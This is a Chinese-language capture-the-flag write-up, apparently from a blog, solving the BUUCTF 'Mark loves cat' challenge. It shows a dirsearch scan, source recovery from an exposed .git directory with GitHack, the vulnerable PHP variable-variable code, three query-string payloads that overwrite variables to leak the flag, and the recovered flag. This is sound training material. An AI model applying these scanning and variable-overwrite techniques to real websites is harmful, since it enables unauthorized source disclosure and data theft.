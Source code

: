 # [BUUCTF [BJDCTF2020]Mark loves cat](https://www.cnblogs.com/darkcyan/p/17670106.html)

一进入环境，毫无头绪。  
使用`dirsearch`扫出了`/.git/`，可以猜出本关一定与git源码泄露有关。  
`python .\dirsearch.py -e * -u http://7cb1db04-980a-4af8-856b-7f6cd5ea231d.node4.buuoj.cn:81/ --timeout=2 -x 400,403,404,429,500,503`

[![](https://img2023.cnblogs.com/blog/2539847/202308/2539847-20230831152553252-1366874553.png)](https://img2023.cnblogs.com/blog/2539847/202308/2539847-20230831152553252-1366874553.png)

使用`GitHack`尝试从网站上扒出源码  
`python .\GitHack.py http://7cb1db04-980a-4af8-856b-7f6cd5ea231d.node4.buuoj.cn:81/.git`

[![](https://img2023.cnblogs.com/blog/2539847/202308/2539847-20230831152634212-647182840.png)](https://img2023.cnblogs.com/blog/2539847/202308/2539847-20230831152634212-647182840.png)

其中在flag.php找到：

```php
<?php
```

```php
$flag = file_get_contents('/flag');
```

其中在index.php末尾找到：

```php
<?php
```

```php
include 'flag.php';
```

```php
$yds = "dog";
```

```php
$is = "cat";
```

```php
$handsome = 'yds';
```

```php
foreach($_POST as $x => $y){
```

```php
    $$x = $y;
```

```php
}
```

```php
foreach($_GET as $x => $y){
```

```php
    $$x = $$y;
```

```php
}
```

```php
foreach($_GET as $x => $y){
```

```php
    # 存在(键值为flag的键值对)的值绝对等于这次比较的键值 且 这次键值不等于flag
```

```php
    if($_GET['flag'] === $x && $x !== 'flag'){
```

```php
        exit($handsome);
```

```php
    }
```

```php
}
```

```php
# 不存在键值为flag的键值对(get型) 且 不存在键值为flag的键值对(post型)
```

```php
if(!isset($_GET['flag']) && !isset($_POST['flag'])){
```

```php
    exit($yds);
```

```php
}
```

```php
# 存在(flag,flag)(post型) 或 存在(flag,flag)(get型)
```

```php
if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
```

```php
    exit($is);
```

```php
}
```

```php
echo "the flag is: ".$flag;
```

`exit`也是一种输出，我们需要执行到exit将flag值输出。

## 解法1：exit($handsome);[#](https://www.cnblogs.com/darkcyan/p/17670106.html#解法1exithandsome)

首先输出 handsome，就要将

handsome 的值转为$flag ，即`handsome=flag`  
并且为了满足条件，需要有键值为flag的键值对，即`flag=xxx`，改变flag的值需要改回来，所以`flag=a&a=flag`  
（flag=a不会将需要的flag值先给覆盖了吗？）  
payload1：`?handsome=flag&flag=a&a=flag`  
payload2：`?handsome=flag&flag=handsome`  
flag在页面源码底部`flag{e6908c89-a3ba-4212-b43b-2ceca40f2367}`

## 解法2：exit($yds);[#](https://www.cnblogs.com/darkcyan/p/17670106.html#解法2exityds)

GET,POST 都不输入flag键就可以，只需要将exit中的yds改为我们需要的

flag  
payload：`?yds=flag`

## 解法3：exit($is);[#](https://www.cnblogs.com/darkcyan/p/17670106.html#解法3exitis)

同样需要将exit中的is改为我们需要的

flag，同时满足if条件存在get型的(flag,flag)  
payload：`?is=flag&flag=flag`

> $不转义，显示有问题